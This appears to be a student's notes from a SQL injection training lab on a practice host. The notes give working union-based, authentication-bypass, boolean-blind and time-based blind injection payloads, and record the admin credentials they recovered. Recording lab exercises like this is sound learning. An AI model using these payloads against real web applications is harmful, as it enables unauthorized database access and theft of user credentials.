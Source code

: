 --> this gave the credentials _admin_:_p4ssword_
`https://website.thm/article?id=0 union select 1, 2, password from staff_users where username = 'martin';--`
--> result = [pa$$word]
``
--> would dump all usernames and passwords
### lvl 2
_admin_ + `' or 1=1;--'`
## lvl 3 --> blind sql
--> best way to go is bruteforcing, as you would have to figure out the names of the database, tables, etc chaacter by character using '%*character*'
`https://website.thm/checkuser?username=admin' union select 1, 2, database()'--` this returned true, and an error message showed the db name was _sqli_three_
--> the 'first' input must be a wrong one, otherwise the rest of the wuery might return _True_ even when not
`https://website.thm/checkuser?username=admin13' union select 1, 2, 3 from information_schema.tables where table_schema = 'sqli_three' and table_name like 'users';-- -`
`https://website.thm/checkuser?username=admin13' union select 1, 2, 3 from information_schema.columns where table_schema = 'sqli_three' and table_name = 'users' and column_name like 'id%';-- -`
--> found the id column, which then needs to be appended when continuing to test:
`https://website.thm/checkuser?username=admin13' union select 1, 2, 3 from information_schema.columns where table_schema = 'sqli_three' and table_name = 'users' and column_name like 'username%' and column_name != 'id';-- -`
--> which found username
`https://website.thm/checkuser?username=admin13' union select 1, 2, 3 from information_schema.columns where table_schema = 'sqli_three' and table_name = 'users' and column_name like 'password' and column_name != 'id' and column_name != 'username' ;-- -`
--> and password
`admin13' union select 1, 2, 3 from users where username like 'admin%' ;--`
--> obviously would work
`admin13' union select 1, 2, 3 from users where username = 'admin' and password like '3845%' ;--`
--> and we got the login _admin_:_3845_
### lvl 4
`https://website.thm/analytics?referrer=admin123' union select sleep(1), 2 where database() like 'sqli_four%' ;--`
--> database = sqli_four
`https://website.thm/analytics?referrer=admin123' union select sleep(1), 2 from information_schema.tables where table_schema = 'sqli_four' and table_name like 'users' ;--` 
--> got the table name users
`https://website.thm/analytics?referrer=admin123' union select sleep(1), 2 from information_schema.columns where table_schema = 'sqli_four' and table_name = 'users' and column_name like 'username' ;--`
--> _username_, _id_ and _password_
`https://website.thm/analytics?referrer=admin123' union select sleep(1), 2 from users where username = 'admin' and password like '4961%' ;--`
--> _admin_:_4961_